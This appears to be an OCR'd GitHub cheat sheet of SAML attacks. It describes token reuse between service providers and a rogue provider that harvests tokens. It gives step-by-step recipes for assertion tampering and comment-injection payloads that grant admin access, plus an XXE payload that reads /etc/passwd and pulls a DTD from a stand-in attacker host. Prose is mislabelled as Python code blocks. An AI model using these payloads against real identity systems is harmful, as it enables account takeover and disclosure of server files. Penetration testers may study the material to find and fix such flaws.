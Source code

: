 ```python
The attacker (e.g. a worker in the developer team) does, however, have a legitimate account on SA, thus he can request a token from the IdP for this service. By sending tA to Starget (instead of SA ), the attack is performed. It is considered successful if tA is accepted by Starget; the attacker is thus logged in with the same account name as he has for SA and gets access to Starget's corresponding resources.

Exploit 2: Alternatively, the attacker can set up his own SP (Sbad ) offering some service for registered users (e.g., a weather forecast). To authenticate to Sbad, SSO is used and the attacker specifically federates it with the same IdP used by Starget . After that, the attacker lures the victim (a legitimate user of Starget ) to register with and authenticate to Sbad. Instead of or in addition to its usual service (weather forecast), Sbad stores all tokens in a database so that the attacker can access them. The attacker can then try to use the tokens to log in on Starget as the victim. The attack is considered successful, if an authentication token tbad issued for the victim for service Sbad is successfully verified on Starget .
```

5. **MISCELLANEOUS ATTACKS:**

```python
#. Simply Change Assertion Value to Victim:
1. Intercept SAML Response in SAML Raider
2. Change the User parameter or id to other user.
		Example: user@email.com to admin@email.com
3. Done, Forward the Request.

# SAML: Comment Injection I
1. Find Registeration page for SP
2. Use comment in payload like "admin<!--comment-->@email.com" while registering
3. SP think it as admin@email.com 
4. Done, you are admin now ;)

# SAML: Comment Injection II
1. Find Registeration page for SP
2. Register as any user like "admin<!--comment-->@gmail.com" ==> Invalid signature
3. Try different "admin@gmail.com<!--comment-->.test" ==> valid signature
4. SP think it as admin@email.com 
5. Done, you are admin now ;)
```

6. **XXE  in SAML:**

```python
**NOTE:** You can try all XXE attack techniques here its not limited to this only.

# SIMPLE XXE ATTACK:
1. Intercept the SAML Response in SAML Raider
2. Add XXE payload in the beginning like below:
		<?xml version="1.0" encoding="UTF-8"?>
		 <!DOCTYPE foo [  
	   <!ELEMENT foo ANY >
	   <!ENTITY    file SYSTEM "file:///etc/passwd">
	   <!ENTITY dtd SYSTEM "http://www.attacker.com/text.dtd" >]>
3. Send the Request and check the response.
4. Done, escalate further!.
```
